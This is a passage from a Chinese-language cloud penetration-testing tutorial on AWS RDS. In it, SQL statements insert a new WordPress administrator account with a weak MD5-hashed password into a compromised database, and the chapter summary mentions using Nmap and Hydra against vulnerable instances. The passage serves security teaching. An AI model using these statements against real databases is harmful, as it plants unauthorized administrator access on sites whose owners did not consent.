 我们可以看到`wp_users`表；现在是时候向其中添加一行新数据了。

1.  对于本教程，我们正在创建一个名为`newadmin`的用户，密码为`pass123`。发出以下命令：

```
INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`)
VALUES ('newadmin', MD5('pass123'), 'firstname lastname', 'email@example.com', '0');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');
```

1.  现在访问`http://<<EC2 IP 地址>>/wp-login.php`登录页面。输入新的凭据，您将以新的管理员身份登录。

# 总结

在本章中，我们学习了 RDS 实例是什么，以及如何创建 RDS 实例。然后我们在 EC2 机器上设置了一个 WordPress 网站，然后配置它使用 RDS 实例作为数据库服务器。我们看到了 RDS 实例如何变得容易受攻击。此外，我们使用 Nmap 和 Hydra 来识别和利用易受攻击的 RDS 实例。最后，我们学习了如何篡改 RDS 实例的数据以创建一个新的 WordPress 用户。

在下一章中，我们将学习如何对其他各种 AWS API 进行渗透测试。

# 进一步阅读

+   **使用 ncrack、hydra 和 medusa 进行暴力破解密码**：[`hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/`](https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/)

+   **在 Amazon RDS 中配置安全性**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)

+   **加密 Amazon RDS 资源**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html)
